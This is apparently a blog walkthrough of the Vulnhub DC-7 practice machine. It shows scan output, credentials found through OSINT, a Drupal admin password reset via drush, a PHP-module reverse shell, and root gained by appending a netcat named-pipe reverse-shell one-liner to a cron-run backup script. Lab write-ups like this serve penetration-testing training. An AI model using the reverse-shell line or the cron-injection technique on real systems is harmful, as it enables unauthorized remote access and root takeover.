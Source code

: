 ```yaml
---
layout: PostSimple
date: 2019-11-23
title:     "Vulnhub - DC 7"
tags: ['medium','drupal','cron']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/1.png)
Today, We are going to pwn DC 7 by DCAU7 from Vulnhub


## Description
>DC-7 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
While this isn't an overly technical challenge, it isn't exactly easy.
While it's kind of a logical progression from an earlier DC release (I won't tell you which one), there are some new concepts involved, but you will need to figure those out for yourself. :-) If you need to resort to brute forcing or dictionary attacks, you probably won't succeed.
What you will need to do, is to think "outside" of the box.
Waaaaaay "outside" of the box. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

Download Link : [https://www.vulnhub.com/entry/dc-7,356/](https://www.vulnhub.com/entry/dc-7,356/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
|_  256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-generator: Drupal 8 (https://www.drupal.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Welcome to DC-7 | D7
MAC Address: 08:00:27:6F:D5:25 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Looks like there is a HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.12
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/29 18:24:01 Starting gobuster
===============================================================
/.config (Status: 403)
/.cvs (Status: 403)
/.bash_history (Status: 403)
/.hta (Status: 403)
/.cache (Status: 403)
/.git/HEAD (Status: 403)
/.bashrc (Status: 403)
/.forward (Status: 403)
/.cvsignore (Status: 403)
/.passwd (Status: 403)
/.profile (Status: 403)
/.perf (Status: 403)
/.rhosts (Status: 403)
/.mysql_history (Status: 403)
/.listings (Status: 403)
/.sh_history (Status: 403)
/.ssh (Status: 403)
/.svn (Status: 403)
/.subversion (Status: 403)
/.history (Status: 403)
/.htaccess (Status: 403)
/.web (Status: 403)
/.swf (Status: 403)
/.listing (Status: 403)
/.htpasswd (Status: 403)
/.svn/entries (Status: 403)
/Admin (Status: 403)
/admin (Status: 403)
/ADMIN (Status: 403)
/batch (Status: 403)
/core (Status: 301)
/Entries (Status: 403)
/index.php (Status: 200)
/install.mysql (Status: 403)
/install.pgsql (Status: 403)
/modules (Status: 301)
/node (Status: 200)
/profiles (Status: 301)
/robots.txt (Status: 200)
/Root (Status: 403)
/search (Status: 302)
/Search (Status: 302)
/server-status (Status: 403)
/sites (Status: 301)
/themes (Status: 301)
/user (Status: 302)
/vendor (Status: 403)
/web.config (Status: 200)
===============================================================
2019/11/29 18:27:52 Finished
===============================================================
```

## OSINT 

While checking the webpage it is a ``Drupal CMS`` which is one of the well know CMS.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/1.png)

Cant find anything useful on the pages but ``Think outside the box`` It looks like an hint.
At the end of the page it looks like an username[br/](br/)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/2.png)

Mostly this ```@``` use in social medias so i searched for the user and found an account on twitter.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/3.png)

And there is a github link
>https://github.com/Dc7User/

## Getting User Credentials

While checking the repo found some credentials.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/4.png)

I tried login in drupal but cant so i tried in ssh.
>dc7user:MdR3xOgB7#dW

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/5.png)

And it worked!!

First is first I checked the home directory and found there is a script running.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/6.png)

Inside ``backup.sh`` I found ``drush`` which is drupal shell

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/8.png)

And the script running as root and www-data so , If we became ``www-data`` and we can get reverse shell using ``backup.sh`` and we can get ``root``.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/7.png)

Since drush is there I googled for drush commands and found 
>https://drushcommands.com/drush-7x/user/user-password/

> drush user-password admin ---password=admin

## Getting Shell as www-data

We successfully logged in with new password ``admin:admin``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/9.png)

Now its time to get reverse shell and found we can upload modules in ``Extend Tab``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/10.png)

I found this 
>[https://www.drupal.org/project/php](https://www.drupal.org/project/php)

I clicked on the Install new module button and uploaded this!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/11.png)

After checking its enabled I went to ``Content -> Add content -> basic page`` and then select the ``Text format`` to be PHP code and copy paste the reverse shell code.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/12.png)

Clicking Preview while the listener is running i got the shell and we are ```www-data```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/13.png)


## Privilege Escalation

We already know that the script is running as root and www-data so we can add our reverse shell to get root

``` echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.18 4444 >/tmp/f" >> backups.sh ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/14.png)

Wait for sometime because cron is running!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc7/15.png)

We got Root !!












